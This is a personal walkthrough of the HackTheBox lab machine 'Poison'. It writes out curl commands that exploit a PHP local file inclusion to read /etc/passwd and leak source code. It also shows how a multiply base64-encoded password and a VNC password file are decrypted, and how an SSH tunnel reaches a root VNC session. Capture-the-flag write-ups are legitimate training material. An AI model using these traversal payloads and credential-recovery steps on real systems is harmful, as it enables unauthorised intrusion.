


This is my writeup of the [poison](https://www.hackthebox.com/machines/poison) machine from HackTheBox.eu.
The machine is currently 138 days old, it has 6955 user owns and 4330 system owns, and is rated 3.8 in difficulty.


## Scanning and Enumeration

I started out with a scan of the machine to find any open ports `nmap -Pn -p1-65535 -A -v -sS 10.10.10.84`. The resulting [scan](nmap_scan) showed the following open ports

- 22 OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
- 80 Apache/2.4.29 (FreeBSD) PHP/5.6.32
- 5802/tcp open http Bacula http config
- 5902/tcp open vnc VNC (protocol 3.8)
- 5903/tcp open vnc VNC (protocol 3.8)
- 6002/tcp open X11 (access denied)
- 6003/tcp open X11 (access denied)

I noticed a lot of VNC sessions, but decided to start out with the web server.

## Owning User

When I opened the site the following screen greeted me



Without testing the scripts the website suggested, I immediately tested for local file include (LFI) and remote file inclusion (RFI). This lead me somewhat off track as I only needed the scripts in order to own the user.

First, I manually tried to get LFI by including `../../../../../etc/passwd`. This succeeded (see [/etc/passwd/](passwd)), and I found the `charix` user at the very bottom (this is also the name of the machine creator).

```sh
$ curl http://10.10.10.84/browse.php?file=../../../../../etc/passwd
# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
---- snip ----
charix:*:1001:1001:charix:/home/charix:/bin/csh

```

Trying different php LFI techniques (see [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal)) I could leverage `php://filter` to get the source code for the vulnerable inclusion script

```sh
$ curl -s "http://10.10.10.84/browse.php?file=php://filter/convert.base64-encode/resource=browse.php" | base64 -d
<?php
include($_GET['file']);
?>
```

Further LFI fuzzing using `dirb` and the `LFI-jhaddix` file from SecLists gave me a lot of files, from which I could not use anything `dirb http://10.10.10.84/browse.php?file= SecLists/Fuzzing/LFI-JHADDIX.txt  -f`. See [LFI-results](fuzz_lfi-jhaddix) for the files it got me.

Getting back on track using the scripts the website suggested my:
Using list-files got me

```php
Array
(
    [0] => .
    [1] => ..
    [2] => browse.php
    [3] => index.php
    [4] => info.php
    [5] => ini.php
    [6] => listfiles.php
    [7] => phpinfo.php
    [8] => pwdbackup.txt
)
```

Reading `pwdbackup.txt` got me

```base64
Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```

Decoding it 13 times gives `Charix!2#4%6&8(0`, which enabled me to log in `ssh charix@10.10.10.84`.

## Owning Root

During the enumeration I saw a lot of VNC sessions. One of these were started by root

```sh
charix@Poison:/tmp % ps auxww  | grep vnc
root   529   0.0  0.9  23620  8872 v0- I    09:01   0:00.05 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -localhost -nolisten tcp :1
charix 777   0.0  0.0    412   328  3  R+   09:06   0:00.00 grep vnc
```

This could be the entry point to owning root but I didn't know how.
What I could see was that there was a `.vnc` folder in the home folder of the `charix`. It contained a `passwd` file with some gibberish.

```sh
$ cat /home/charix/.vnc/passwd | xxd -p
a7cd4c5eab70e29b
```

After some searching around I found that it was the obfuscated password of the user.
As it was obfuscated there had to be someone who could deobfuscate it. A long story short, the password is DES encrypted by a static key.
But deobduscating the password of Charix made no sense as I already had access as that user.
I stopped with the vnc attack vector.

When SSH'ing in, the file `secret.zip` was located in the home directory. I copied the file to my local machine and unzipped it, which revealed the file `secret`.

```sh
$ scp ssh charix@10.10.10.84:secret.zip
$ unzip secret.zip #unzipped the file 'secret'
$ xxd -p secret
bda85b7cd5967a21
```

The contents of the file looked very similar to the `passwd` file for the vnc service for the Charix user.
I then tried to use the deobfuscater I found earlier, and sure enough it gave me a password

```sh
$ git clone https://github.com/jeroennijhof/vncpwd.git
$ cd vncpwd
$ gcc -o vncpwd vncpwd.c d3des.c
$ ./vncpwd ../secret
Password: VNCP@$$!
```

I then tried to log on to session 1 (the session number can be seen in the `ps` output above)

```sh
$ vncviewer 10.10.10.84:1
vncviewer: ConnectToTcpAddr: connect: Connection refused
Unable to connect to VNC server
```

Bummer. The session started by root was probably protected somehow.

I found an [article](http://www.penguintutor.com/linux/tightvnc) describing how to secure TightVNC on a raspberry pi, by only allowing connections from localhost. To get access he would use ssh port forwarding:

```
$ ssh charix@10.10.10.84 -L 5901:localhost:5901
```

This creates a tcp listener on my Kali box on port 5900. When a connection is established on that port it forwards the traffic through ssh and makes a connection to localhost (on the poison machine) on port 5901.

With the tunnel set up I tried to connect again

```
$ vncviewer localhost:1
```

Success! It prompted for a password, and handed me a vnc session:



I couldn't figure out how to copy from the session, and I had to manually copy it.
